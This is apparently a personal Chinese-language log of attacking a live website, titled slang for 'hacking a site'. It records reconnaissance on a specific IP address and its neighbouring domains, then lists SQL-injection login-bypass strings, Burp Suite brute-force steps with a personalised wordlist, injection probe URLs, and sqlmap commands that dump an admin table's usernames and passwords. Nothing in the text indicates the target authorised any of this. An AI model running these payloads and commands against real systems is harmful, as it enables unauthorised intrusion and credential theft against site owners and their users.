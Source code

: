 # 日站记录

## 信息收集

+ IP：154.80.253.139
+ 可能域名：0539y.com
+ Server: Microsoft-IIS/10.0
+ X-Powered-By: ASP.NET

+ nmap 扫描

```shell
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
3306/tcp open  mysql
Device type: general purpose
Running: Linux 2.4.X, Microsoft Windows XP|7|2012
OS CPE: cpe:/o:linux:linux_kernel:2.4.37 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2012
OS details: DD-WRT v24-sp2 (Linux 2.4.37), Microsoft Windows XP SP3, Microsoft Windows XP SP3 or Windows 7 or Windows Server 2012
```

+ Nikto 扫描

```shell
nikto -h http://example.com -output ~/nikto.html -Format htm
# 结果
http://154.80.253.139/phpMyAdmin/index.php
http://154.80.253.139:80/5cMlHAOg.aspx  # 暂时连不上
http://154.80.253.139/phpMyAdmin/doc/html/index.html  # 偶然发现
```

+ 最牛逼的信息收集网站

```shell
https://dnslytics.com/ip/154.80.253.139

# 旁站
bjshuxue.com	
pinkewang.com
# 数据库信息
[INFO] the back-end DBMS is Microsoft Access
web server operating system: Windows 10 or 2016
web application technology: ASP.NET, Microsoft IIS 10.0, ASP
back-end DBMS: Microsoft Access

i03.net	
tzsiss.com.cn	
cz-huatian.com	
nplxs.com	
wangmin.name	
4006080.com	
flyemail.cn	
zj5156.org

# 邮箱 2018-08-05
mail.jianuo2.xyz
mail.taiyangyy.top
```

+ 目录扫描

```shell
http://154.80.253.139/phpMyAdmin/db_create.php  # 与 index.php 同界面
```



+ 万能密码

```shell
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
```



## BP爆破

**Burp Suite 工具箱**

+ Proxy

    拦截 HTTP /S 的代理服务器，作为一个在浏览器和目标应用程序之间的中间人，允许你拦截，查看，修改在两个方向上的原始数据流。

+ Spider

    应用智能感应的网络爬虫，它能完整的枚举应用程序的内容和功能。

+ Scanner[仅限专业版]

    一个高级的工具，执行后，它能自动地发现 web应用程序的安全漏洞。

+ Intruder

    高度可配置的工具，对 web 应用程序进行自动化攻击，如：枚举标识符，收集有用的数据，以及使用 fuzzing 技术探测常规漏洞。

+ Repeater

    靠手动操作来补发单独的 HTTP请求，并分析应用程序响应的工具。

+ Sequencer

    用来分析那些不可预知的应用程序会话令牌和重要数据项的随机性的工具。

+ Decoder

    进行手动执行或对应用程序数据者智能解码编码的工具。

+ Comparer

    通常是通过一些相关的请求和响应得到两项数据的一个可视化的“差异”。 

```shell
cupp -i  # 加入社工信息，生成特有字典
proxy -> history  # 找到登录信息
Send to intruder
clear§  # 清楚所有§
add§  # 在需要爆破的地方加§
payloads -> load... # 导入字典
options -> number of threads  # 设置多线程
start attack  # 观察状态码和长度
```

## SQL 注入

```shell
https://sqlwiki.netspi.com/detection#mysql  # 参考网站
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false

product.asp?id=1/1 -- true
product.asp?id=1/0 -- false
```

**sqlmap 使用**

```shell
# 检查注入点：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11

# 爆当前数据库信息：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --current-db

# 指定库名列出所有表
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 --tables
('vhost48330' 为指定数据库名称)

# 指定库名表名列出所有字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin --columns
('admin' 为指定表名称)

# 指定库名表名字段dump出指定字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin -C ac，id，password --dump  ('ac,id,password' 为指定字段名称)
```

